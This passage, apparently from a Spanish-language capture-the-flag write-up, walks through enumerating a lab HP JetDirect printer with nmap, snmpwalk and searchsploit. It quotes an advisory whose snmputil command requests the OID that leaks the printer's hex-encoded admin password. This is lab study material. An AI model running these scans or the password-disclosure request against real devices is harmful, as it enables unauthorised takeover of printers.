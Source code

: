 ```shell
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```

Como solo hemos encontrado un puerto vamos a enumerar tambien los puertos de UDP por si alguno esta abierto.

```shell
nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
```

Como se puede ver encontramos el puerto 161 abierto con el servicio snmp corriendo.

```shell
PORT    STATE SERVICE
161/udp open  snmp
```

## Enumeramos snmp 

Como vemos que snmp se encuentra disponible vamos a enumerarlo con la herramienta `snmpwalk` 

vemos que si enuumeramos el string no obtenemos mucha información 

```shell
snmpwalk -v1 -c public 10.10.11.107
```

obtenemos lo siguiente 

```shell
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
```
si buscamos en en `searchexploit` algun resultado tneemos uno interesante con el siguiente contenido 
```shell
searchsploit HP JetDirect
HP JetDirect Printer - SNMP JetAdmin Device Password 
```
Nos comparte el siguiente exploit que podemos adaptar a nuestro caso:

```java
HP JetDirect J2552A/J2552B/J2591A/J3110A/J3111A/J3113A/J3263A/300.0 X Printer SNMP JetAdmin Device Password Disclosure Vulnerability

source: https://www.securityfocus.com/bid/7001/info

A problem with JetDirect printers could make it possible for a remote user to gain administrative access to the printer.

It has been reported that HP JetDirect printers leak the web JetAdmin device password under some circumstances. By sending an SNMP GET request to a vulnerable printer, the printer will return the hex-encoded device password to the requester. This could allow a remote user to access and change configuration of the printer.

C:\>snmputil get example.printer public .1.3.6.1.4.1.11.2.3.9.1.1.13.0 
```
